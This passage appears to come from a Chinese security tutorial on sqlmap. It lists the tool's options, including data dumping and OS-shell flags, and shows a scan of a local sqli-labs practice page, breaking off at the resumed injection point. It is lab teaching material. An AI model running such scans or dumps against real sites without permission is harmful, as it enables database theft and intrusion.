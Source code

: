 ![image-20230518160546071](D:\Document\My_book\My_Books\钟全龙著\img\image-20230518160546071.png)

这里我们不会再使用手工注入，而是使用sqlmap来进行注入；

常用的选项

```
-u 指定目标URL (可以是http协议也可以是https协议)
-d 连接数据库
--dbs 列出所有的数据库
--current-db 列出当前数据库
--tables 列出当前的表
--columns 列出当前的列
-D 选择使用哪个数据库
-T 选择使用哪个表
-C 选择使用哪个列
--dump 获取字段中的数据
--batch 自动选择yes
--smart 启发式快速判断，节约浪费时间
--forms 尝试使用post注入
-r 加载文件中的HTTP请求（本地保存的请求包txt文件）
-l 加载文件中的HTTP请求（本地保存的请求包日志文件）
-g 自动获取Google搜索的前一百个结果，对有GET参数的URL测试
-o 开启所有默认性能优化
--tamper 调用脚本进行注入
-v 指定sqlmap的回显等级
--delay 设置多久访问一次
--os-shell 获取主机shell，一般不太好用，因为没权限
-m 批量操作
-c 指定配置文件，会按照该配置文件执行动作
-data data指定的数据会当做post数据提交
-timeout 设定超时时间
--level 设置注入探测等级
--risk 风险等级
--identify-waf 检测防火墙类型
--param-del="分割符" 设置参数的分割符
--skip-urlencode 不进行url编码
--keep-alive 设置持久连接，加快探测速度
--null-connection 检索没有body响应的内容，多用于盲注
--thread 最大为10 设置多线程
```

**判断是否存在注入点**

判断可以使用那种SQL注入来进行注入

```shell
[hacker@Blackarch]-[~]
>>> sqlmap -u "http://192.168.8.121/sql-lab/Less-1/?id=1"
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:36:56 /2023-05-08/

[21:36:56] [INFO] resuming back-end DBMS 'mysql'
[21:36:56] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```